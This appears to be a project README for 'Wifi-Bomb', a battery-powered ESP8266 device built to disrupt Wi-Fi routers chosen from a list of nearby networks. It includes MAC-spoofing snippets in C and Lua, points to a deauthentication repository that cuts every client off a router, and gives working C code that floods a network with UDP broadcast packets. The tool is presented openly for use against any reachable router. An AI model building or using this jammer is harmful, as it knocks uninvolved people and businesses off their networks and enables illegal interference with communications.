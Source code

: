 # Wifi-Bomb

### Introduction

The **Wifi-Bomb** project disrupts the connection of connected device to a router. The application requires to know the MAC address of the connected device. **The mac address must be in a predefined format)**, at first we did not respect this format, so the project didn't work. But we did a program that slow down the speed of a router. For this, it performs a DDOS attack(distributed denial of service attack) by sending a lot of network packets. So the process is to flood the network up to the dysfunction of the router. The arduino use the library [Wifi Manager](https://github.com/tzapu/WiFiManager) to find the routers close to the arduino. Then, the user has to connect to the following url 192.168.4.1 which is the default url for Wifi Manager. Then he will see all the routers close to him. To finish, the user has to choose the router to attack and the project will DDOS this one. When the arduino is attacking a router, the led turns.  

Requirement
-------------
 * Wemos D1 Mini V2 (ESP8266)
 * 2*battery AAA LR03
 * ON/OFF Switch 

![enter image description here](http://img4.hostingpics.net/pics/287422final.png)



Dashboard 
-------------

### Step 1 - Mono deauthentication

At the beginning, we wanted the Wifi-Bomb project to disrupt the connection of a connected device to the router. But the application requires to know the MAC address of the connected device. We could'nt change the mac address with the ESP8266 library. 

We tried the following code in order to change the mac address. We found that the wifi_set_macaddr () method didn't work because the method returned always false.

```C
byte mac[] = { 0xDE, 0xAD, 0xBE, 0xEF, 0xFE, 0xED };
  
  if(wifi_set_macaddr(SOFTAP_IF, &mac[0])){
    Serial.println("Mac Adress change");
  }
  else{
    Serial.println("Mac Adress didn't change");
  }
```
**However, we noticed that the mac address requires a predefined format. Indeed, at the beginning of the test, we put a random mac address and it didn't work. Testing with a real mac address, the program worked well.**

Then, we looked the code of the library "Wifi Manager" to see an example of inclusion of libraries.

This is the link of the project: https://github.com/jordanmarques/wifi-bomb/blob/mac_address/wifi-bomb.ino

### Step 2 - Change Mac address with Nodemcu

After that, we used a "node MCU" in order to "jam" the network via a LUA code because we can change the MAC address with it. But onn the other hand, we could not make an access point via this solution. Moreover, the associated idea is not adapted to our needs, so we have abandoned this solution.

![Node MCU](http://www.webondevices.com/wp-content/uploads/2015/11/113990105-1.jpg)

Here's the nodemcu code for change the mac address in lua. 
```C
wifi.setmode(1)
wifi.sta.config("SSID","PSWD")
wifi.sta.setmac("\000\217\209\006\027\000")
tmr.alarm(0, 6000, 1, function()
    print("Start")
    wifi.sta.connect()
    print(wifi.sta.getip())
    print("End")
end )
```

### Step 3 - Multi deauthenticate

We continued the searches and found a github [repository](https://github.com/RandDruid/esp8266-deauth) that allows us to deauthenticate of a router. The difference with the original project is this one is more advanced than the first project. Indeed, it makes possible to jam the connection between a router and all the devices connected to it.

### Step 4 - DDOS 

We looked for another type of wifi attack. We found a [tutorial](https://yoursunny.com/t/2016/WiFi-flood/) to slow down the speed of a wifi connection. In this tutorial we found a code which create many network packets, then send them to a router. Each packet contain 1000 byte. This method is called a DDOS.

This is the code we found in the tutorial:
```C
#include <ESP8266WiFi.h>
#include <WiFiUdp.h>

uint8_t pkt[1000];

void setup() {
  Serial.begin(115200);

  WiFi.mode(WIFI_AP);
  WiFi.softAP("00000000", "00000000", 6, 1);

  memset(pkt, 0, sizeof(pkt));
}

void loop() {
  WiFiUDP udp;
  udp.beginPacketMulticast(WiFi.softAPIP(), 1, IPAddress(255,255,255,255), 1);
  udp.write(pkt, sizeof(pkt));
  udp.endPacket();
}
```

So we developed a code to connect to a router. 
This code contained an interface to connect to a wifi access point via an form.
We encountered a problem with the arduino that connected to the same router than the one which we wanted to "jam".
So we chose to use Wifi Manager library because it was simpler and more convenient to use.
After a few bugs, we finally managed to validate the connection to a wifi network and to inject a large number of packets in order to slow down the speed wifi of this network.

In parallel, we have welded the arduino to an external battery in order to be able to use it from anywhere.
